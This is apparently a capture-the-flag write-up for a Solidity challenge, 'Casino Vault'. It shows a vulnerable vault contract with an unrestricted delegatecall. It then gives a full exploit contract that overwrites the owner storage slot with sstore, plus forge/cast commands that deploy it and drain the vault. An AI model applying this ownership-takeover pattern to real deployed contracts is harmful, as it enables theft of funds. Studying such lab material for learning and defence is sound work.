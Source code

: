 The Vault of this Casino can only be opened by the owner, what are we trying to do here is to take everything from the owner, but how? &nbsp;  
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
it seems the Heist is successful when we managed to empty the Vault, a lot of work to be done here it seems huh? Let's look at what we're dealing with, the *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transfered, ) = payable(owner).call{value: address(this).balance}("");
        require(transfered, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can verifyIdentify by providing an *address* and a *bytes memory data*, they use deelgatecall there, delegate call are usually used like a "borrowed function", you execute the function in order to modify the state of the caller, in this case if we parse and address an execute the data there it will execute the data and modify the state of the *Casino Vault* itself. Unlinke Silent-Dealer where there is a function to change owner here the option doesn't present. So hwo can we become the Owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is a operation called *sstore(location, value)*, we can use this to overwrite the storage memory, let's see where the *owner* reside, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address, this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage we can use &nbsp;  
&nbsp;  

```
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the Vault &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it and at last we going to withdraw all the money stored there &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!